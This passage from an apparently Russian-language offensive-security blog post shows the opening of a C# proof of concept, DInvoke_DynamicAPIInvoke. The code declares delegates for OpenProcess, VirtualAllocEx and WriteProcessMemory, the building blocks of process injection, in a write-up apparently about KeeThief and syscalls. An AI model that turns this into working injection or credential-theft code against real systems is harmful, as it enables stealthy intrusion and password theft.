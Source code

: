 [![di-dynamicapiinvoke-project-tree.png](/assets/images/keethief-syscalls/di-dynamicapiinvoke-project-tree.png)](/assets/images/keethief-syscalls/di-dynamicapiinvoke-project-tree.png)
{:.center-image}

Структура проекта DInvoke_DynamicAPIInvoke
{:.quote}

А вот содержимое самого PoC.

```csharp
using System;
using System.Diagnostics;
using System.ComponentModel;
using System.Runtime.InteropServices;

namespace DInvoke_DynamicAPIInvoke
{
    class Delegates
    {
        [UnmanagedFunctionPointer(CallingConvention.StdCall)]
        public delegate IntPtr OpenProcess(
            DInvoke.Data.Win32.Kernel32.ProcessAccessFlags dwDesiredAccess,
            bool bInheritHandle,
            int dwProcessId);

        [UnmanagedFunctionPointer(CallingConvention.StdCall)]
        public delegate IntPtr VirtualAllocEx(
            IntPtr hProcess,
            IntPtr lpAddress,
            uint dwSize,
            uint flAllocationType,
            uint flProtect);

        [UnmanagedFunctionPointer(CallingConvention.StdCall)]
        public delegate bool WriteProcessMemory(
            IntPtr hProcess,
            IntPtr lpBaseAddress,
            byte[] lpBuffer,
            int nSize,
            out IntPtr lpNumberOfBytesWritten);
```

[//]: # (2022-03-29)